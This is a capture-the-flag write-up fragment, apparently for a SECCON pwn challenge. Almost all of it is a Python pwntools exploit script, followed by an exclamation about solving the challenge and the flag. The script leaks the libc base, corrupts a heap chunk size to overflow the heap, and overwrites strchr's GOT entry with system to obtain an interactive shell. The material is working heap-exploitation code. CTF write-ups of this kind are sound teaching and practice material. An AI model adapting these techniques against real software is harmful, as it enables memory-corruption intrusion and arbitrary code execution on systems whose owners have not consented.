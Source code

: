 ```python
    signin("A"*4)
    r.sendlineafter(">> ", "2") # show DM, leak libc
    r.recvuntil("[")
    libc.address += u64(r.recv(6).ljust(8,"\x00")) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']

    log.success("libc base: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    signout()

    # somehow we can overwrite an unsortbin chunk's size
    # enlarge the size, so we can overflow the heap buffer and fake some data structure
    signin(malusr)
    change_name("i"*24+p8(0xa1))
    tweet("fuck") # will allocate chunk from smallbin
    change_name(p8(0x40)) # make this user into right index
    tweet("7"*16+p64(0x60302a)) # allocate chunk from unsortbin, overwrite data structure. We can now start overwriting memory from 0x60302a

    # start overwriting, we wish to overwrite strchr's got
    change_name("A"*6+"B"*8+p64(system_addr)) # padding + padding + strchr's got (overwrite to system)
    r.sendlineafter(">> ", "sh\x00") # strchr("sh", 10) --> system("sh")

    r.interactive()

```

First time solving a 500 points pwn challenge ! WOOHOO ! 

flag: `SECCON{51mpl3_ch47_l1k3_7w1*73*}`